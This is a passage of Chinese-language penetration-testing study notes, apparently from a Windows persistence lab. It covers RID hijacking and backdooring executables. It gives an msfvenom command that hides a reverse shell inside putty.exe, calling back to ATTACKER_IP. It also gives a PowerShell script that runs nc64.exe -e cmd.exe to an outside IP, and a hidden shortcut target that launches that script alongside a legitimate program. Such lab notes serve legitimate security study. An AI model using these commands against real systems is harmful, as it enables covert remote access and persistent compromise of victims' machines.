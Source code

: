下次 thmuser3 登录时，LSASS 会将其与administrator相同的 RID 关联，并授予他们相同的权限


## Executable Files

方法一：直接把shell code注入到正常的程序当中
```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```


方法二：利用快捷方式里“属性”（properties）的target字段，原理为更换为我们的ps文件，在启动源程序的同时执行rev shell

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/7a7349b9dcc5af3180044ee1d7605967.png)

准备一个PS脚本
```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.13.21.169 4445"

C:\Windows\System32\calc.exe
```

替换快捷方式里面的值
```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/fe703ddea6135e0c867afcc6f61a8cd2.png)

